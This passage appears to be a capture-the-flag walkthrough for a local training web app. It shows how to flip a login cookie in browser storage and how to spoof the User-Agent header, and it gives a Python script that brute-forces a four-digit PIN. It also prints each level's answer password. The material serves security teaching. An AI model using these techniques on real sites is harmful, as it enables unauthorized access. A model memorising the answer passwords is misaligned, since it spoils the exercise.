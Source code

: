 This is a bad example of how not to handle WebSessions with authentification.

Login to the level.  
Press F12. Go to Webstorage.  
Change the Value of the cookie logedin from 0 to 1

**Password:** Js9VryWFHbVRkti9RRzHaJT9Ht2hHAi3

## Level 8

Every http header is easy to modify and can be faked. There are a lot of tools out there for this. These tools are used to test and attack websites.

Postman:

* Open postman
* Send a request to http://localhost:8000/ctf/ctf8 (or IP/ctf/ctf8)
* Should see a response with not authorized.
* Open bowser and log in with ctf8 and the password
* Open DevTools and copy the Cookie Auth to Postman
* Resend reqest
* Now fake user-agent by filling adding this field to the header:
* User-Agent: Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_3_3 like Mac OS X; en-us) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8J2 Safari/6533.18.5
* Resent reqest

FireFox:

* Install the addon User-Agent Switcher and Manager
* Go to the level site and log in
* Use the addon to pretent to be an IPhone
* You might have to disable javascript in the about:config

**Password:** SCZ4Ujm6fdoEnW4FejSt3v2kTcLh72VE

## Level 09

To protect sensitive information just with an pin is not a good idea. With some simple script you can crack thin pin in seconds

```Python
#!/usr/bin/env python3
import time
import requests
import string


cookies = {'Auth': 'KEY'}

for i in range(0000,9999):
    Data = {'text' : i}
    r = requests.post('http://localhost:8000/ctf/ctf9', data=Data,
        cookies=cookies)
    if('WRONG' in r.text):
        continue
    else:
        print(r.text)
        print(i)
        break


```
